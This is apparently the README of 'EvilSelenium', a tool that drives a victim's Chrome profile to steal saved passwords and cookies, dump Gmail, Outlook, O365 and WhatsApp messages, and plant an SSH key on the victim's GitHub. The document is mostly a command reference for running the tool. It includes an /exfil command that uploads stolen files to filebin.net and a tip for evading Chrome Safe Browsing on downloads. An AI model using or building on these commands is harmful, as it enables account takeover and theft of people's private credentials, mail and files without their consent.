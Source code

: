 # EvilSelenium
EvilSelenium is a beta project that weaponizes <a href="https://www.selenium.dev/">Selenium</a> to abuse Chrome. The current features right now are:

* Steal stored credentials (via autofill)
* Steal cookies
* Take screenshots of websites
* Dump Gmail/O365 emails
* Dump WhatsApp messages
* Download & exfiltrate files
* Add SSH keys to GitHub

Easily extend the existing functionality to suit your needs (e.g. Download files from the user's GDrive/OneDrive).

# Note

1. When this tool is run it will terminate any existing Chrome processes in order to be able to run with the user's Chrome profile which has the passwords & active sessions.

2. I built this tool in about a week & I didn't run as many tests as I should therefore there may be some bugs.

# Usage
	
	EvilSelenium.exe /?

    /help - Show this help menu.

    SETUP:
    /install - Install chromedriver & Selenium webdriver. Run this once.

    RECON:
    /enumsavedsites [out_path] - Check which websites have passwords saved via screenshot(s).
    /screenshot [website] [out_path] - Screenshot a given webpage.

    CREDENTIALS:
    /autorun - Extract saved credentials from common websites.
    /dynamicid [login_page] [username_id] [password_id] - Extract saved credentials from a website, providing the username field ID & password field ID.
    /dynamicname [login_page] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value & password name value.
    /dynamicname2 [login_page] [username_position] [password_position] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value, password name value and their positions.

    COOKIES:
    /cookies [website] - Grabs cookies for a given website.

    MODULES:
    /download [file_url] [seconds] - Downloads a file and specify time to wait for download to finish. File extensions should not be executable.
    /exfil [local_file] [seconds] - Uploads a file on filebin.net and outputs the download link.
    /gmail [out_path] [num_of_emails] - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.
    /outlook [out_path] [num_of_emails] - Fetches emails from Outlook if user is authenticated.
    /o365 [out_path] [num_of_emails] - Fetches emails from O365 Outlook if user is authenticated.
    /github [key] - Add your SSH key to Github if user is authenticated.
    /whatsapp [out_path] - Fetches Whatsapp messages if user is authenticated (BETA).

# Setup

The `/install` command will download the Chrome Driver and Selenium WebDriver which are the necessary requirements. EvilSelenium will work on Chrome versions 98-90.

**Tested on Windows 10, Chrome v97 & v90.**

	EvilSelenium.exe /install

# Recon Module

`/enumsavedsites` - This will take screenshots of chrome://settings/passwords

`/screenshot` - Screenshot any website. If the user is authenticated to the website then you get authenticated screenshots :).

# Credentials Module

**IMPORTANT:** The credentials module will **DELETE COOKIES** in order to steal credentials from autofill. Ideally, you should use the credentials module at the end if you want to export cookies.

`/autorun` - Prebuilt templates for common websites. I'll continue to add more.

`/dynamicid` - Provide the login URL along with the username input field's ID and password field's ID. This is equivalent to document.getElementById().

`/dynamicname` - If the fields don't have IDs, provide the fields' name values. It will pick the first index of the name values. This is equivalent to document.getElementsByName()[0].value.

`/dynamicname2` - Provide the fields' name values along with their index position. This is equivalent to document.getElementsByName()[x].value.

# Cookies Module

`/cookies` - Dumps cookies from the specified website.

# Misc Modules

These are additional modules I built to demonstrate what sort of actions you can do with Selenium.

`/download` - Download a file & specify time to wait for the download. A non-executable file extension should be appended to the file before downloading to avoid Chrome's Safebrowsing prompt.

`/exfil` - Uploads a file on filebin.net & specify the time to wait for the upload to complete. Once the upload is completed the file's download link is written.

`/gmail` - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.

`/outlook` - Fetches emails from Outlook if user is authenticated.

`/o365` - Fetches emails from O365 Outlook if user is authenticated.

`/github` - Add your SSH key to Github if user is authenticated.

`/whatsapp` - Fetches Whatsapp messages if user is authenticated (BETA).

# Example

![Example](https://github.com/mrd0x/EvilSelenium/blob/main/demo-1.png)
